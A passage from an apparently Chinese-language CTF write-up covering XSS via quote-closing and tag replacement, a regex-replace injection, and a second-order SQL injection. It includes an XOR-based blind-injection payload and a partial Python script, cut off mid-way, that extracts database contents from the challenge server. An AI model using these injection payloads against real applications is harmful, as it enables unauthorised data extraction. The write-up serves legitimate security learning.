 直接闭合**"**来填入任意格式的js代码，那样都可以被执行。

**非预期二**

同理，既然我可以替换，那么我直接把iframe标签整个替换掉，该注释的注释，这就又是一个任意带码的插入问题了。

#### 0x06 Post to zuckonit another version  

![image-20210224211304394](https://i.loli.net/2021/02/24/kxl3TqsitUWzpwc.png)

这里根据赛题的提示https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/String/replace

我们假设看懂了提示，继续做题。

![image-20210224211417932](https://i.loli.net/2021/02/24/xI6liFkYgpyahjv.png)

![image-20210224211731788](https://i.loli.net/2021/02/24/mih6y2nDGUXkpOV.png)

因为其实就考察了一个对于正则表达式熟悉程度的理解，怎样才能够插入，我们自己的数据呢？**|**两边只需要匹配上一边就可以继续，所以一边放匹配，一边放插入的字符串，问题就解决了。

#### 0X07 Unforgettable

这个题目是一个二次注入，不是SSTI，辣鸡（switch爷爷，我错了

这个题的官方题解就不好说了，一个时间盲注，username是注入点，user的路由是二次注入触发的地方。这里主要说一下，一个更骚的解法（**Carrot2师傅太骚了**。因为在这里是有回显的，有回显的，有回显的。所以我们可以先注册，1-127的用户。然后利用异或注入

```
0'^ord(reverse(left(({}),{})))#{}".format(evsql, i, ran)
```

这个语句就会一位一位的把亲爱的数据那出来和0异或，异或的结果是什么呢？当然就是他自己了，这不就是那一位字符的ascii码吗？然后的然后，我们就可以上脚本了。

```
import requests
import random
import time,re

'''
session = requests.session()
evsql = "select database()"
for i in range(0, 127):
    time.sleep(0.3)
    ran = random.randint(1000000, 999999999)
    burp0_url = "https://unforgettable.liki.link/register"
    burp0_data = {"username": "{}".format(i),
                  "email": "{}@qq.com".format(ran), "password": "admin", "submit": "注册"}
    r = session.post(burp0_url,data=burp0_data)
    if "You have registered!" not in r.text:
        if "Invalid Username" in r.text:
            continue
        else:
            # print(r.text)
            print(i,"注册失败")
            # exit()
            
'''
#evsql = "select/**/group_concat(table_name,',')/**/from/**/information_schema.tables/**/where/**/table_schema/**/regexp/**/database()"
#database todolist
# ffflllaagggg,,todolist,,user,,,
#evsql = "select/**/group_concat(COLUMN_NAME,',')/**/from/**/information_schema.COLUMNS/**/where/**/TABLE_NAME/**/regexp/**/'fflllaagggg'"
evsql  = "select/**/ffllllaaaagg/**/from/**/ffflllaagggg"
def register(s,payload,ran):
    url = "https://unforgettable.liki.link/register"
    burp0_data = {"username": payload,
```